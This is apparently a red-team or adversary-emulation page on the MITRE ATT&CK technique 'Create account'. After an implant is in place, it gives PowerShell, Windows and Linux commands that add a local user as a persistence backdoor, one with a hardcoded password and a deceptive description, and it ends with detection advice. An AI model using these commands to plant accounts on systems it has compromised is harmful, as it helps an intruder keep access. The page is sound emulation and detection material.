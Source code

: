 # [Create account](https://attack.mitre.org/techniques/T1136/)

## Exploit syntax:

1. Obtain implant into system
2. If unknown, determine the OS of the system
3. Based on the OS, execute the proper syntax below:

### Powershell via sharpps (if installed on local system):
```powershell
sharpps $cred=ConvertTo-SecureString -AsPlainText -Force -String "N33zDutz123"; New-LocalUser -Name "Bobbyjim" -Password $cred -Description "Totally legitimate user."
``` 
    

### Windows:
```bat
invoke-command net user /add [username] [password]
```
### Linux:
```bash
useradd [OPTIONS] USERNAME
```
>***NOTE***: must be root or a user with sudo privileges 

---
## Detection Techniques:
* Investigate account creation via the net.exe process. Looking for Event ID 4720 if an account is created on a windows system.
* event.code:4720
* Investigate /var/log/secure file for attempts to create users
